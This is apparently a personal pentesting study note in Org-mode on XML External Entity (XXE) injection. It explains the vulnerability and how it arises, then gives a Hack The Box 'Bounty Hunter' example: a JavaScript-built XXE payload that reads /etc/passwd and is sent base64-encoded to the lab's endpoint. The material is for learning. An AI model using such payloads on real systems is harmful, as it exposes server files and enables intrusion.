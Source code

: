 #+title: XML External Entity (XXE) Injection
#+hugo_base_dir: /home/kdb/Documents/github/owlglass
#+hugo_auto_set_lastmod: t
#+options: H:2
#+HUGO_SECTION: infosec/pentesting/web
#+hugo_weight: 6

* XXE Injection
XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access ([[https://portswigger.net/web-security/xxe]]).

Sometimes the XXE can lead to SSRF and consequently the compromise of the server or other back-end infrastructure.

** Origins
Some apps pass data between the browser and server using XML format, usually with the help of a standard library or platform API to process the XML data on the server.  The XML specification contains potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.  XML external entities are a type of custom XML entity whose defined values are loaded from outside of the DTD in which they are declared. External entities are particularly interesting from a security perspective because they allow an entity to be defined based on the contents of a file path or URL.
* Examples
** Bounty Hunter - HTB
#+begin_src js
var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd">] >
        <bugreport>
        <title>&xxe;</title>
        <cwe>test</cwe>
        <cvss>test</cvss>
        <reward>test</reward>
        </bugreport>`
returnSecret(btoa(xml));
#+end_src
